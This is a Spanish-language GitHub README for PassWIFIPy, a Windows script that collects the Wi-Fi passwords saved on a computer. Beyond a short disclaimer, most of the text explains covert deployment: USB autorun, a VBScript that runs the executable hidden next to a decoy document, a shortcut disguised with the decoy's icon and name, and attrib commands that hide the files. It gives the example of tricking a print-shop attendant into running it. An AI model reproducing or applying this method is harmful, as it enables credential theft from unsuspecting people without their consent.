







#  PassWIFIPy 💻🔐📡

## ¿Qué es PassWIFIPy?  
PassWIFIPy es un script que captura todas las redes WIFI guardadas en el equipo.  
Hace un mapeo de estas redes para al final guardarlas en una carpeta con el  
hostname que tenga asignada la maquina.  

## **Atención**   ⚠️
El script y la explicación de cómo funciona es únicamente con propósitos de aprendizaje,  
no me hago responsable de los malos usos que puedan hacerse con esta herramienta.  

También es importante que sepas que fue desarrollado en un ambiente windows,  
por lo que no es compatible con otros sistemas operativos.  

## Inicio  
```bash
    $ pip install -r requirements.txt
    $ python index.py
```  

## Detalles a tener en cuenta 
- Se creo con la versión 3.10 de Python.  
- Se uso conda para no tener problemas con las versiones instaladas de Python   
    y su paquete pyinstaller.  

## Construyendo ejecutable  
```bash
    $ pyinstaller --onefile index.py
```   

## ¿Cómo usarlo? 🤔 

### Forma facil 😊: 
Teniendo el ejecutable puedes hacer la prueba en tu maquina o en la de alguien más con su permiso.  
Tan solo da doble click y este va empezar a escanear las redes wifi y guardarlas en la carpeta wifi-pwd.  

### Forma avanzada 🛠️💻:
Una vez teniendo el EXE, puedes crear un archivo autorun.inf y asignarle el   
ejecutable para que inicie automáticamente con la unidad USB.  

Claro esto solo va funcionar si tiene habilitado el modo de autorun en el
equipo.   

Si no es así podrías hacer lo siguiente:   

## **index.vbs**  
```vbscript
    Set WshShell = CreateObject("WScript.Shell")
    WshShell.Run chr(34) & "index.exe" & Chr(34), 0
    WshShell.Run chr(34) & "DISCLETTER:\ROOT\FILE.EXTENSION" & Chr(34), 0
    Set WshShell = Nothing 
```   
Con este script podrás iniciar el ejecutable sin mostrar la ventana de la consola,  
solo tienes que copiar el nombre del archivo exe y este se encargará de iniciarlo.  

Puedes definir una segunda ruta con el archivo que quieres que se ejecute después.  

**¿Para qué?**    

Bueno veamos un posible caso, podrías estar en un chat o papelería y pedirle  
al encargado que te imprima un archivo de word, una foto, una nota, etc.  
Cualquier tipo de archivo siempre y cuando se pueda abrir en su equipo.  

Guiándonos por este caso podemos ya tener un archivo preparado, como un pdf,  
un word, una foto, etc.  

Entonces aquí es donde entra en juego nuestra segunda línea de comando en  
el archivo index.vbs.  

```vbscript
    WshShell.Run chr(34) & "DISCLETTER:\ROOT\FILE.EXTENSION" & Chr(34), 0
```  
Dentro de las comillas estará la ruta del archivo que quieres abrir.  

Seguido de esto procedemos a crear el acceso directo de nuestro script de vbs.  

  

**Cambiar el icono y nombre de tu acceso directo**  

En este paso según sea el tipo de archivo que quieras abrir, si así lo prefieres, tendrás que cambiar  
el icono para que tenga relación con lo que creaste.   
Esto lo vas a hacer accediendo a la ruta del ejecutable para tomar su icono y   
entre los que estén disponibles escoger el que más se parezca.  

  
  

Asegúrate de darle el mismo nombre que el verdadero archivo que vas a ejecutar, (este no debe tener acentos)  
para que se ejecute correctamente. Al terminar muévelo a la ruta inicial de tu usb, si gustas puedes dejarlo  
dentro de otras carpetas, el acceso directo que se acaba de crear ya tendrá esta misma ruta donde se encuentra, 
el script de vbs junto con el exe.  


  

**Recuerda**  

El archivo que creaste debe estar en este pedazo de código, dentro de las comillas.


```vbscript
    WshShell.Run chr(34) & "DISCLETTER:\ROOT\FILE.EXTENSION" & Chr(34), 0
```  
Si ya lo tienes todo preperado, abre una terminal dentro de la unidad USB  
y ejecuta los siguientes comandos:

```bash
    $ attrib +h +s tuarchivo.extension (el archivo que creaste) 
    $ attrib +h +s tuCarpeta/archivosWifi.txt (carpeta que contendrá los archivos de las redes WIFI encontradas y los ejeutables) 
```  

  

Esto va ocultar los archivos que seleccionaste, para que de este modo no puedan ser vistos o encontrados.  
Acá puedes tener el acceso directo desde el inicio o desde la carpeta que quieras.  Realmente no importa, ya    
que tiene la ruta donde está el verdadero ejecutable de todo.  

Si lo hiciste bien, al dar doble click en el acceso directo se ejecutará el exe y empezará a capturar las redes WIFI  
que hay en el equipo, y se abrirá tu archivo mientras este proceso sigue, guardando así cada red que encuentre  
en una carpeta con el hostname de la maquina y los txt de las redes.

---  

## Ver las redes ya capturadas  

```bash
    $ attrib -h -s tuCarpeta/archivosWifi.txt (carpeta que contendrá los archivos de las redes WIFI encontradas y los ejecutables) 
```  

Como resultado de esto tendrás de nuevo lo que ocultaste y dentro de esto la carpeta wifi-pwd la cual contendrá las carpetas   
de las maquinas con las redes WIFI encontradas.

  
  
  
